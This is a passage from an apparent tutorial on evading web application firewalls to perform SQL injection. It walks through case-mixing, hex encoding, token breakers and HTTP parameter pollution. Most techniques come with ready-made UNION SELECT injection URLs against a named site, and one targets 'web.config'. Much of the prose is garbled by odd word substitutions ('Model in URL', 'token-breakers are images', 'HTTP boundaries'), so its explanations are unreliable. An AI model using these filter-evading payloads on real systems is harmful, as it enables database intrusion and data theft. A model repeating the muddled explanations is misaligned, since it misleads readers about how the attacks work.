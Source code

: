     `UniOn(SeLeCt%201%2C2%2C3%2C4%2C5%2C6)`
    
-   Model in URL:
    
    `https://hacksec.in/cat.php?id=1 UniOn(SeLeCt%201%2C2%2C3%2C4%2C5%2C6)`
    

### 3. Hex Encoding Technique

An attacker can inject a destructive code into your Application in numerous ways, and utilizing Hex code is one of them. How about we take a SQL query and convert it into Hex code using the underneath interface.

-   Blocked by WAF:
    
    `https://hacksec.in/viewAllProducts.php?sc=1'UnION Select 10-- -`
    
-   Bypassed Technique:
    
    `0x2e312929556e494f6e2053656c65637420312c322c332c342c352c362c372c382c392c3130`
    
-   Model in URL:
    
    `http://www.hacksec.in/viewAllProducts.php?sc=1'UnION Select 0x2e312929556e494f6e2053656c65637420312c322c332c342c352c362c372c382c392c3130-- --`
    

### 4. Token Breakers Technique

-   attacker on a symbolic endeavour to break the rationale of parting a solicitation into tokens with token breakers.
    
-   Token-breakers are images that permit influencing the correspondence between a component of a string and a specific token.
    
-   Our solicitation should stay legitimate while utilizing token-breakers.
    
-   Contextual investigation: Unknown Token for the Tokenizer
    

### 5. HTTP Parameter Pollution

It might be large numbers of you have known about it; however, I am sure the couple would have utilized it at any point. Most importantly, HPP, Definition at OWASP - Supplying different HTTP boundaries with a similar name might make an application decipher values in unexpected ways. By taking advantage of these impacts, an attacker might have the option to sidestep input approval, trigger application mistakes or change inside factors esteems. As HTTP Parameter Pollution (in short HPP) influences a structure square of all web innovations, server and customer side assaults exist.

-   Blocked by WAF:
    
    `http://hacksec.in/product.aspx?uid='union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,'web.config',20,21--`
    
-   Model in URL:
    
    `http://hacksec.in/product.aspx?uid='union--+&uid=*/%0aselect 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,'web.config',20,21--`
    

## let’s pick some live example
